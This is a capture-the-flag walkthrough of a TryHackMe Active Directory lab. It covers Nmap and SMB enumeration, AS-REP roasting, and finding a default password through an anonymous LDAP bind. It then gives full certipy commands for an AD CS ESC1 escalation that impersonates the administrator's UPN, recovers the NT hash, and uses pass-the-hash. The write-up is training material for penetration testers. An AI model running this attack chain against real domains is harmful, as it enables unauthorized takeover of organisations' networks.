This box is rated hard difficulty on THM. It involves us finding default credentials for domain users through LDAP anonymous binds and abusing a misconfiguration in Active Directory Certificate Services to escalate privileges to administrator by UPN impersonation in a vulnerable template.

_This challenge simulates a real cyber-attack scenario where you must exploit an Active Directory._

## Host Scanning
As always, I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP returns nothing out of the ordinary.

```
$ sudo nmap -sCV 10.64.136.244 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-08 21:49 CDT
Nmap scan report for 10.64.136.244
Host is up (0.044s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-09 02:49:50Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2026-03-09T02:50:05+00:00; 0s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:labyrinth.thm.local, DNS:thm.local, DNS:THM
| Not valid before: 2023-05-12T07:32:36
|_Not valid after:  2024-05-11T07:32:36
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
|_ssl-date: 2026-03-09T02:50:05+00:00; 0s from scanner time.
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=thm-LABYRINTH-CA
| Not valid before: 2023-05-12T07:26:00
|_Not valid after:  2028-05-12T07:35:59
|_http-title: IIS Windows Server
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:labyrinth.thm.local, DNS:thm.local, DNS:THM
| Not valid before: 2023-05-12T07:32:36
|_Not valid after:  2024-05-11T07:32:36
|_ssl-date: 2026-03-09T02:50:05+00:00; 0s from scanner time.
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-03-09T02:50:05+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: THM
|   NetBIOS_Domain_Name: THM
|   NetBIOS_Computer_Name: LABYRINTH
|   DNS_Domain_Name: thm.local
|   DNS_Computer_Name: labyrinth.thm.local
|   Product_Version: 10.0.17763
|_  System_Time: 2026-03-09T02:49:57+00:00
| ssl-cert: Subject: commonName=labyrinth.thm.local
| Not valid before: 2026-03-08T02:49:19
|_Not valid after:  2026-09-07T02:49:19
Service Info: Host: LABYRINTH; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-03-09T02:49:57
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.02 seconds
```

Looks like a Windows machine with Active Directory components installed on it and LDAP is leaking the domain of labyrinth.thm.local, so I'll add that to my `/etc/hosts` file. There's quite a few ports open,  and for that reason I begin with HTTP, SMB, and Kerberos due to them being relatively easy to test.

Checking out both web servers displays the default Microsoft IIS page for fresh installs, so I'll fuzz for subdirectories and Vhosts with Ffuf in the background while enumerating other services. HTTPS prompts us to accept a self-signed certificate, however there's no useful information on it.



## SMB Enumeration
Moving onto SMB reveals that Guest authentication is enabled, but we don't have read permissions to any non-standard shares. 



I use Netexec's RID brute-force option to collect a list of all accounts and groups on the domain before carrying on. A simple `awk` command will extract the usernames from the output which is handy for testing certain things.

```
--Saving RID brute force output to file--
$ nxc smb labyrinth.thm.local -u '' -p '' --rid-brute > users.txt

--Extracting usernames from file--
$ cat users.txt| awk -F'\\' '{print $2}' | awk '{print $1}' > validusers.txt
```

## AS-REP Roasting Failure
Next, I enumerate which users are still valid on the domain with [Kerbrute](https://github.com/ropnop/kerbrute).

```
$ kerbrute userenum ../validusers.txt --dc labyrinth.thm.local -d thm.local
```



That returns a lot of output and reveals that almost all are valid usernames. Now I want to test if any accounts have Kerberos pre-authentication disabled in order to capture a `krb5asrep` hash to crack offline.

```
$ impacket-GetNPUsers -dc-ip 10.64.136.244 -usersfile ../validusers.txt -no-pass thm.local/
```

That eventually shows that five users don't have that option enabled. Sending them over to JohnTheRipper or Hashcat and giving it a moment to run returns nothing, meaning we're back to square one. AS-REP Roasting is always a good thing to try if we don't start with credentials due to how easy it is to gain passwords when applicable.



## LDAP Enumeration
Since we can't Kerberoast quite yet and SMB had nothing in store, I check to see if LDAP anonymous binds are allowed and find that we can indeed make limited queries. First, I grab the naming contexts for future reference.

```
$ ldapsearch -x -H ldap://labyrinth.thm.local -s base namingContexts
```



Next, I'll make a query to retrieve all objects that have an `objectClass` attribute and save it to a file for easier parsing.

```
$ ldapsearch -x -H ldap://thm.local -b "dc=thm,dc=local" "(objectClass=*)" > objclass.txt
```



### Password in Description Attribute
That returns almost too much information, so I grep for objects that may seem interesting in hopes to gather any sensitive knowledge. I start with all description attributes as Administrators can sometimes leave legacy passwords or handy notes there.

```
$ grep description objclass.txt   
                                        
description: Default container for upgraded user accounts
description: Default container for upgraded computer accounts
description: Default container for domain controllers
description: Builtin system settings
description: Default container for orphaned objects
description: Default container for security identifiers (SIDs) associated with
description: Default location for storage of application data.
description: Default location for storage of Microsoft application data.
description: Quota specifications container
description: Default container for managed service accounts
description: For all IP traffic, always request security using Kerberos trust.
description: For all IP traffic, always request security using Kerberos trust.
description: Permit unsecure ICMP packets to pass through.
description: Accepts unsecured communication, but requests clients to establis
description: Matches all IP packets from this computer to any other computer, 
description: Permit unsecured IP packets to pass through.
description: Matches all ICMP packets between this computer and any other comp
description: Communicate normally (unsecured). Use the default response rule t
description: For all IP traffic, always require security using Kerberos trust.
[...]
description: Tier 1 User
description: Please change it: [REDACTED]
description: Tier 1 User
description: Tier 1 User
```

Among the sea of output, I discover two instances of a default password being left in the description. Using Vim's reverse search function to find which accounts these apply to reward us with valid credentials on the domain for `IVY_WILLIS` and `SUSANNA_MCKNIGHT`.

There weren't any interesting shares on SMB, so I don't even bother rerunning those commands, however testing if either accounts have RDP access returns a successful authentication for Susanna.



## Privilege Escalation
Authenticating over RDP grants us a shell on the domain and the user flag is sitting on the desktop for us to redeem.



### Active Directory Certificate Services
Now that we have initial access to the domain, I spawn a CMD shell as Susanna to check out the filesystem for any intriguing things as well as list all of our new privileges. Listing users on the `C:\` drive shows one other account besides the Administrator on the box named `BRADLEY_ORTIZ`, who we may just have to pivot to.



We don't have crazy privileges to abuse, however I notice that we are in the built-in Certificate Service DCOM Access group, which reveals that Active Directory Certificate Services (AD CS) is installed on the system.



Knowing that we could have access to obtain certificates, we can check for misconfigurations in AD CS, and if present they may allow us to escalate privileges. For this step I use the find feature in [Certipy-AD](https://github.com/ly4k/Certipy), which allows us to enumerate templates that are vulnerable.

```
$ certipy-ad find -target labyrinth.thm.local -u 'SUSANNA_MCKNIGHT' -p '[REDACTED]' -vulnerable -stdout
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: All nameservers failed to answer the query labyrinth.thm.local. IN A: Server Do53:192.168.172.2@53 answered SERVFAIL
[!] Use -debug to print a stacktrace
[*] Finding certificate templates
[*] Found 37 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 14 enabled certificate templates
[*] Finding issuance policies
[*] Found 21 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'thm-LABYRINTH-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'thm-LABYRINTH-CA'
[*] Checking web enrollment for CA 'thm-LABYRINTH-CA' @ 'labyrinth.thm.local'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : thm-LABYRINTH-CA
    DNS Name                            : labyrinth.thm.local
    Certificate Subject                 : CN=thm-LABYRINTH-CA, DC=thm, DC=local
    Certificate Serial Number           : 5225C02DD750EDB340E984BC75F09029
    Certificate Validity Start          : 2023-05-12 07:26:00+00:00
    Certificate Validity End            : 2028-05-12 07:35:59+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : THM.LOCAL\Administrators
      Access Rights
        ManageCa                        : THM.LOCAL\Administrators
                                          THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
        ManageCertificates              : THM.LOCAL\Administrators
                                          THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
        Enroll                          : THM.LOCAL\Authenticated Users
Certificate Templates
  0
    Template Name                       : ServerAuth
    Display Name                        : ServerAuth
    Certificate Authorities             : thm-LABYRINTH-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2023-05-12T08:55:40+00:00
    Template Last Modified              : 2023-05-12T08:55:40+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Domain Computers
                                          THM.LOCAL\Enterprise Admins
                                          THM.LOCAL\Authenticated Users
      Object Control Permissions
        Owner                           : THM.LOCAL\Administrator
        Full Control Principals         : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
        Write Owner Principals          : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
        Write Dacl Principals           : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
        Write Property Enroll           : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Domain Computers
                                          THM.LOCAL\Enterprise Admins
    [+] User Enrollable Principals      : THM.LOCAL\Authenticated Users
                                          THM.LOCAL\Domain Computers
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
```

Near the bottom of the output shows that we can perform an ESC1 attack on the domain to escalate privileges to Administrator via impersonation.

### ESC1 PrivEsc
If you're unfamiliar - AD CS ESC1 is a critical security misconfiguration in Microsoft Active Directory Certificate Services (AD CS) that allows a low-privileged user to impersonate any user in the domain, including Domain Admins. It is highly-regarded as one of the most common and high-impact escalation vulnerabilities within Active Directory environments.

Now let's apply this to our case; Since Susanna has enrollment rights to a vulnerable template, we can request a certificate for the Administrator and use that to authenticate on Kerberos through PKINIT. Once that's handled, we just need to request a TGT as Administrator and use that to grab the NTLM hash, which can be used in a pass-the-hash attack or cracked in Hashcat/JohnTheRipper.

A simplified attack flow is pictured below:

```
Access as Low Privileged User
        ↓
Find vulnerable certificate template
        ↓
Request certificate for "Administrator"
        ↓
Certificate Authority issues it
        ↓
Authenticate via Kerberos PKINIT
        ↓
Get TGT as Administrator
        ↓
Full Domain Compromise
```

First, let's make a request to the Certificate Authority from Susanna's account impersonating the Administrator through the UPN field. This command will grant us a certificate file that is used in future authentication procedures.

```
$ certipy-ad req -u 'SUSANNA_MCKNIGHT'  -p '[REDACTED]' \
-dc-ip 10.64.136.244 -target labyrinth.thm.local \
-ca thm-LABYRINTH-CA -template ServerAuth \
-upn administrator@thm.local

Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 26
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@thm.local'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

There's a lot happening in that command, so I'll break down what each flag is doing.
- `-req` – Request a certificate
- `-u SUSANNA_MCKNIGHT` – Username for authentication
- `-p '[REDACTED]'` – Password for the user
- `-dc-ip 10.64.136.244` – Domain controller IP
- `-target labyrinth.thm.local` – Target CA/DC hostname
- `-ca thm-LABYRINTH-CA` – Certificate Authority name
- `-template ServerAuth` – Certificate template to use
- `-upn administrator@thm.local` – Impersonated user User Principle Name (UPN)

Next, we'll authenticate to the Domain Controller while supplying that administrator.pfx file we just obtained in order to get a TGT for the Admin. Certipy will automatically retrieve the NTLM hash for us as well.

```
$ certipy-ad auth -pfx administrator.pfx -dc-ip 10.64.136.244
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@thm.local'
[*] Using principal: 'administrator@thm.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@thm.local': aad3b435b51404eeaad3b435b51404ee:[REDACTED]
```

Finally, we can grab a shell with Impacket's WMIExec or SMBExec in a Pass-The-Hash which rewards us with the root flag under the administrator's desktop folder.



A bit of post-exploitation enumeration revealed that another way to own this box is by a Resource Based Constraint Delegation attack since users in the Guests group have GenericWrite over the `LABYRINTH.THM.LOCAL` computer object. This would've been my preferred way of escalating privileges had I used BloodHound, but I've been too reliant on it as of late, so I decided not to. This [RedFoxSec article](https://redfoxsec.com/blog/rbcd-resource-based-constrained-delegation-abuse/) explains the basics as well as how to go about exploiting this vector if you're interested.

That's all y'all, this box was pretty short for a hard challenge but went about some more difficult concepts if you're unfamiliar with AD CS in general. I hope this was helpful to anyone following along or stuck and happy hacking!
